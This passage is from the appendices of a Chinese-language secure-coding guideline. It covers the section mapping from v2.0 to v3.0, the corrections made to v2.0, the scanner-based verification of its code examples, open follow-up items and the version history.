| 5.1 RESTful API 安全 | 12.2、12.3 | 改寫 |
| 5.2 GraphQL 安全 | 12.5 | 改寫（深度與複雜度限制、內省） |
| 5.3 API 版本控制與向後相容 | 12.3（`SCG-API-007`） | 安全面保留舊版下線規則；版本策略見系統設計指引第 19 章 |
| 5.4 API 速率限制與節流 | 12.4 | 改寫 |
| 6.1 Docker 安全 | 17.3 | 改寫（digest 固定、非 root、建置秘密） |
| 6.2 Kubernetes 安全 | 17.3、13.3 | 改寫（Pod Security restricted、NetworkPolicy）；叢集層級見架構設計指引第 13 章 |
| 6.3 雲端服務安全 | 5.3、13.3 | 程式碼相關部分（秘密管理、中繼資料服務）保留；平台見架構設計指引 |
| 7.1 代碼儲存庫安全 | 1.3、15.3 | 改寫（CODEOWNERS、分支保護、Gitleaks） |
| 7.2 建構流程安全 | 15.3 | 改寫（以 SHA 固定 Action、最小權限、zizmor） |
| 7.3 部署安全 | 20.3 | 改為發布前安全閘道 |
| 7.4 供應鏈安全 | 第 15 章 | 改寫（SCA、鎖定檔、冷卻期、安裝腳本、SBOM、來源證明） |
| 8.1 靜態應用程式安全測試 (SAST) | 1.2、附錄 B | 改為各規則的驗證方式與工具設定 |
| 8.2 動態應用程式安全測試 (DAST) | 20.3、附錄 B.7 | 測試規劃見測試與品質保證指引第 13 章 |
| 8.3 互動式應用程式安全測試 (IAST) | （移除） | 移至測試與品質保證指引；本文只保留程式碼層級的驗證 |
| 8.4 滲透測試 | （移除） | 移至測試與品質保證指引第 13.5 節 |
| 9.1 個人資料保護 | 14.1、5.1 | 程式碼層級的遮罩、加密與記錄規則；法規流程見系統設計指引第 17 章 |
| 9.2 資料分類與標記 | 1.3、16.1 | 以 ASVS 等級與 AI 資料分級規則呈現 |
| 9.3 資料遮罩與匿名化 | 14.1（`SCG-LOG-002`） | 保留遮罩工具範例 |
| 9.4 資料備份與復原 | （移除） | 屬維運範疇，見資料庫設計指引與架構設計指引 |
| 10.1 安全事件識別 | 14.1、14.2（`SCG-LOG-007`） | 改為安全事件記錄與警示 |
| 10.2 事件回應流程 | 20.5 | 只保留開發者責任；流程見軟體開發標準程序教學手冊 |
| 10.3 取證與證據保全 | 20.5（`SCG-REV-005`） | 保留證據保全範例 |
| 10.4 災難復原計畫 | （移除） | 屬架構與維運範疇，見架構設計指引 |
| 5.1 每日開發檢查項目 | 20.1 | v2.0 誤編為 5.1（應為 11.1），v3.0 修正並更新內容 |
| 5.2 Pull Request 檢查項目 | 20.2 | 同上（應為 11.2） |
| 5.3 部署前檢查項目 | 20.3 | 同上（應為 11.3） |
| 12.1 密碼處理錯誤 | 19.1 | 改為錯誤、原因、正確做法、規則的對照表 |
| 12.2 SQL 查詢錯誤 | 19.2 | 同上 |
| 12.3 檔案上傳錯誤 | 19.3 | 同上 |
| 12.4 前端 XSS 錯誤 | 19.4 | 同上 |
| 12.5 權限控制錯誤 | 19.5 | 同上 |
| 12.6 API 設計錯誤 | 19.6 | 同上 |
| 12.7 配置錯誤 | 19.7 | 同上 |
| 13.1 GDPR 合規 | 18.4 | 程式碼層級規則對照；法規流程見系統設計指引第 17 章 |
| 13.2 個資法合規 | 18.4 | 同上，並更新為 2025-11-11 修正公布的條文 |
| 13.3 PCI DSS 合規 | 18.4 | 更新為 PCI DSS 4.0.1 的條款對照 |
| 13.4 SOX 合規 | 18.4、14.1 | 稽核軌跡要求併入 `SCG-LOG-004` |
| 14.1 官方安全指引 | D.1 | 更新連結 |
| 14.2 程式語言特定資源 | D.2 | 更新並修正失效連結 |
| 14.3 安全工具 | D.3、附錄 B | 更新為實測過的工具與設定 |
| 14.4 學習資源 | D.4 | 更新 |
| 14.5 公司內部資源 | D.5 | 移除範例信箱，改為由各公司補充 |

---

## 附錄 F 修訂紀錄與查證紀錄

### F.1 v2.0 的錯誤與修正

| v2.0 位置 | 錯誤 | v3.0 修正 |
| --- | --- | --- |
| 2.5 | 建議「啟用」`X-XSS-Protection`；舊瀏覽器的 XSS 過濾器本身會造成弱點，現代瀏覽器已移除 | 不設定或設為 `0`（17.1）；Spring Security 預設即輸出 `0` |
| 2.5 | CSP 範例含 `script-src 'self' 'unsafe-inline'`，等於沒有 CSP | 嚴格 CSP（nonce／hash、`object-src 'none'`、`base-uri`）與 Trusted Types（9.1） |
| 2.5 | Spring Security 範例使用 `.and()` 與 `frameOptions().deny()` 串接寫法，Spring Security 7 已移除 | 改為 Lambda DSL（17.1） |
| 2.6 | JWT 以寫死的 HMAC 金鑰與已廢棄的 `signWith(SignatureAlgorithm.HS512, String)` 簽章 | 由 IdP 簽發、資源伺服器以 JWKS 驗證並限定演算法（3.4） |
| 2.3 | Python 範例以 f-string 記錄例外 `logger.error(f"Error: {e}")` | 結構化日誌與遮罩（第 14 章） |
| 3.4 | 以 ` ```java ` 標示的區塊內容其實是 YAML；資料庫權限範例使用 MySQL 語法而文件其他部分以 PostgreSQL／Oracle 為主 | 語言標示修正；四種資料庫方言分別實測（第 10、11 章） |
| 4.2 | AES-GCM 範例沒有產生與保存 IV，`getBytes()` 未指定字元集 | 每次產生 96 位元隨機 IV、以 AAD 綁定情境，並有竄改測試（5.1） |
| 4.5、12.7 | `management.endpoints.enabled-by-default` 自 Spring Boot 3.4 起已廢棄 | `management.endpoints.access.default`，並以 Boot 4.1.1 的設定中繼資料確認（6.4） |
| 4.7 | 密碼規則要求「大小寫、數字、特殊字元、至少 8 碼」；NIST SP 800-63B-4 已明確禁止組成規則，且單一因子時至少 15 碼 | 依 800-63B-4 改寫（3.1，`SCG-AUTH-002`） |
| 4.10 | SSRF 範例以 `new URL(url)`（Java 20 起廢棄）解析並只比對主機名稱字串 | 解析 DNS 後檢查每一個 IP，並停用重新導向（13.3） |
| 6.1 | 容器範例使用 `myapp:latest` 與 Trivy 掃描 `latest` 標籤 | 以 digest 固定映像（17.3） |
| 7.x、8.2 | GitHub Actions 以 `@v3` 可變標籤引用，Java 17、`zaproxy/action-baseline@v0.7.0` 等已過時版本 | 以 commit SHA 固定最新版本（`actions/checkout` v7.0.1 等），Java 25 |
| 7.4 | `dependency-check-maven` 8.4.0、`cyclonedx-maven-plugin` 2.7.9 | 13.0.0、2.9.3 |
| 第 11 章 | 小節編號誤為 5.1–5.3，目錄卻寫 11.1–11.3，三個目錄連結全部失效 | 重新編號並以 Hugo 實際輸出比對所有連結 |
| 多處 | 程式碼區塊中的 `# 註解` 被誤判為標題，污染大綱；部分清單與程式碼區塊之間缺少空行 | 以建置腳本檢查 MD022、MD031、MD058、未標示語言的程式碼區塊 |
| 12.1 | 以 `DigestUtils.md5Hex(password)` 作為反例，但沒有說明正確做法的升級路徑 | `DelegatingPasswordEncoder` 與舊雜湊升級測試（3.1） |
| 14.2 | `python.org/dev/security/`、`nodejs.org/en/docs/guides/security/` 等連結已失效或轉址 | 更新為現行官方頁面（附錄 D） |
| 14.5、結語 | 列出 `security@company.com` 等看似真實的聯絡信箱 | 移除，改由各公司補充（D.5） |
| 頁尾 | 文件版本 v2.0、最後更新 2025-08-29，與 front matter 日期不一致 | 版本資訊集中於文件開頭與 F.4 |

### F.2 範例與工具的實測紀錄

**驗證環境（2026-10-08）：** Windows 11、Podman 5（WSL 機器）、OpenJDK 25.0.4、Maven 3.9.9、Spring Boot 4.1.1、Python 3.12、Node.js 24.16、TypeScript 7.0.2（ESLint 使用 TypeScript 6.0.2）、Semgrep 1.180.0、SpotBugs 4.10＋FindSecBugs 1.14.0、Bandit 1.9.4、ESLint 10.12.0、typescript-eslint 8.71.1、zizmor 1.30.1、actionlint、hadolint、kubeconform、promtool、Spectral 6、html-validate 11.16.2、mermaid-cli。資料庫：PostgreSQL 18.6、Oracle AI Database 26ai Free 23.26.3、SQL Server 2025 CU9（17.0.5005.3）、Db2 12.1.5。

| 驗證項目 | 方法 | 結果 |
| --- | --- | --- |
| Java 範例 | 86 個完整類別放入 Maven 專案，以 JDK 25＋Boot 4.1.1 編譯並執行 JUnit | 編譯成功；55 個測試全部通過（含 MockMvc 授權測試、ML-KEM 後量子金鑰封裝、XXE、Zip Slip、壓縮炸彈、SSRF） |
| Java ❌ 範例 | 6 個 ❌ 完整類別以 SpotBugs＋FindSecBugs 掃描 | 全部被偵測：`COMMAND_INJECTION`、`SPEL_INJECTION`、`OBJECT_DESERIALIZATION`、`XXE_DOCUMENT`、`URLCONNECTION_SSRF_FD`、`SQL_INJECTION_JDBC` |
| Java ✅ 範例的工具結果 | 同上掃描 ✅ 專案 | Medium 以上只有 `ThumbnailService`（`COMMAND_INJECTION`）與 `LegacyCacheReader`（`OBJECT_DESERIALIZATION`），屬工具無法判斷允許清單與過濾器的已知限制，已在 6.1、6.2 說明處理方式 |
| SQL 與預存程序 | 29 個 SQL 區塊依標示的方言在四個資料庫容器中執行，比對「預期結果／預期錯誤」 | 全部通過；❌ 版本的動態 SQL 在四種資料庫中確實被注入（回傳全部資料），✅ 版本回傳 0 筆；Oracle 回報 `PLW-06009`；SQL Server 預設拒絕 `xp_cmdshell`（Msg 15281） |
| Python 範例 | `py_compile`＋Bandit＋pytest | ❌ 範例全部被偵測（B602、B307、B301、B314、B608、B113、B501、B201、B104、B704、B108、B311）；✅ 範例沒有中高風險發現；pytest 通過 |
| TypeScript／TSX ✅ 範例 | TypeScript 7.0.2 `tsc --noEmit`（strict） | 無錯誤 |
| JS／TS／Vue／React ESLint | 附錄 B.3 的設定 | ❌ 範例被偵測：`detect-child-process`、`no-new-func`、`no-unsanitized/property`、`react/no-danger`、`regexp/no-super-linear-backtracking`、`detect-unsafe-regex`、`no-restricted-syntax`（權杖存入 Web Storage、Tailwind 動態 class）、`no-restricted-properties`（`Math.random`）；✅ 範例沒有安全類錯誤 |
| Semgrep 自訂規則 | 15 條規則，以標註 `ruleid`／`ok` 的測試檔驗證（附錄 B.1） | 20 個預期命中全部命中，0 個誤報；並對文件中實際的 ❌ 範例確認可偵測 JWT 只解碼、關閉 TLS 驗證、`bypassSecurityTrustHtml`、NoSQL 注入、`as` 型別斷言 |
| Semgrep 官方規則 ID | 以 GitHub API 確認 `semgrep/semgrep-rules` 中的檔案存在 | 引用的規則均存在；`express-mongo-nosql-injection` 不存在，改以自訂規則取代 |
| GitHub Actions | actionlint＋zizmor | ✅ 工作流程無發現；❌ 工作流程被偵測 `template-injection`、`dangerous-triggers`、`unpinned-uses`、`artipacked`；1.3 節範例因 zizmor 提示補上 `persist-credentials: false` |
| Dockerfile、Kubernetes、Prometheus | hadolint、kubeconform `-strict`、promtool | ✅ 範例通過；❌ Dockerfile 被偵測 `DL3007`（latest）、`DL3064`（秘密寫入 `ENV`） |
| OpenAPI | Spectral（附錄 B.5） | ✅ 契約無錯誤；刪除限制的版本觸發 4 個預期錯誤 |
| HTML | html-validate（`require-sri`） | ✅ 範例無錯誤；9.5 ❌ 的 Tailwind CDN 腳本被 `require-sri` 偵測 |
| JSON、YAML、TOML | 解析器驗證 | 全部可解析 |
| Mermaid | mermaid-cli 渲染 6 張圖 | 全部成功 |
| SRI 雜湊、映像 digest、Action SHA | 實際下載計算 sha384；Docker Hub 與 GitHub API 查詢 | 文件中的值均為查證時的實際值 |
| 版本資訊 | Maven Central、npm registry、endoflife.date、GitHub Releases、官方公告 | 見 0.2 節 |
| 目錄與錨點 | Hugo 實際建置後，比對頁面中所有 `href="#..."` 與標題 ID | 見下方建置檢查 |

**驗證過程中發現並寫入指引的實務陷阱：**

1. Spring Boot 4 的 `@WebMvcTest` 需要 `spring-boot-starter-security-test` 才會載入安全設定（4.4）。
2. `@ExceptionHandler(Exception.class)` 會把 `ResponseStatusException` 的 404 與 Spring Security 的 403 變成 500（12.2）。
3. TypeScript 7.0 尚未提供 typescript-eslint 需要的 API，必須與 TypeScript 6 並存（8.3、B.3）。
4. `management.endpoints.enabled-by-default` 在 Boot 4.1.1 仍存在但已廢棄（6.4）。
5. PostgreSQL 新函式預設授予 `PUBLIC` 執行權限（11.2）；`REVOKE ALL ON SCHEMA public FROM PUBLIC` 之後，新角色必須明確授予 schema 的 `USAGE`（4.3 的 RLS 範例因此改用獨立 schema）。
6. Bandit 對 `markupsafe.Markup` 回報的是 `B704`，不是 `B703`／`B308`（7.3）。
7. Semgrep 社群版無法跨檔案判斷類別是否為 `@Entity`，`scg-entity-as-requestbody` 以命名慣例近似（4.2）。

### F.3 待追蹤事項

| 項目 | 說明 | 預計處理 |
| --- | --- | --- |
| NIST SP 800-218r1（SSDF 1.2） | 查證時仍為初始公開草案（2025-12-17），尚未發布正式版 | 正式版發布後更新 1.1 與 18.4 |
| OAuth 2.1 | 仍為 IETF 草案 | 成為 RFC 後更新 3.4 |
| 個人資料保護法修正條文施行日 | 2025-11-11 修正公布，施行日由行政院另定 | 施行後確認外洩通報與安全維護義務的程式碼影響 |
| typescript-eslint 對 TypeScript 7 的支援 | 追蹤 typescript-eslint issue #10940 | 支援後移除 B.3 的並存設定 |
| Node.js 26 LTS | 預定 2026-10-28 進入 LTS | 更新 0.2 節基準版本 |
| 未完成自動查證的連結 | ISO 27002（網站回 403）、Oracle Java 安全指引（網站回 403，已以搜尋結果確認文件 11.0 版存在）、PCI DSS 文件庫、RFC 9700、RFC 9457、IETF 兩份 OAuth 草案、OpenSSF Scorecard、SLSA 1.1、CSP Evaluator、Security Headers：查證當日因網站阻擋自動化存取或查證工具額度用盡而未完成 | 下次改版時以瀏覽器逐一確認 |
| ZAP 被動掃描規則編號 | 3.3、9.1、17.1 引用的 ZAP 規則編號（10010、10011、10054、10038、10055、10035、10020、10021、10023、90022）未在本次環境中實際執行 ZAP 確認 | 以 ZAP 容器對範例應用程式執行被動掃描 |
| Spring Security Passkeys 實際登入流程 | 3.2 只驗證了多因子授權規則可編譯；Passkey 的註冊與登入未端對端測試 | 以 webauthn4j 的測試工具補上整合測試 |
| Angular、Vue SFC 的型別檢查 | Angular 元件與 Vue SFC 以 ESLint 驗證，未執行 `ngc`／`vue-tsc` 完整編譯 | 建立最小 Angular 與 Vite 專案編譯 |

### F.4 版本紀錄

| 版本 | 日期 | 說明 |
| --- | --- | --- |
| v3.0 | 2026-10-08 | 全面改寫：聚焦程式碼層級；新增規則編號、驗證方式與「🔍 審查與驗證」；新增 Angular、React、HTML、Tailwind CSS、預存程序（四種資料庫）、API、AI／LLM、供應鏈章節；依 OWASP Top 10:2025、ASVS 5.0、CWE Top 25 2025、NIST SP 800-63B-4 更新；所有範例實測；平台與流程類內容改連結到專門指引 |
| v2.0 | 2025-08-29 | 加入 API、容器、CI/CD、測試、資料保護、事件回應、合規章節 |
| v1.x | — | 初版 |
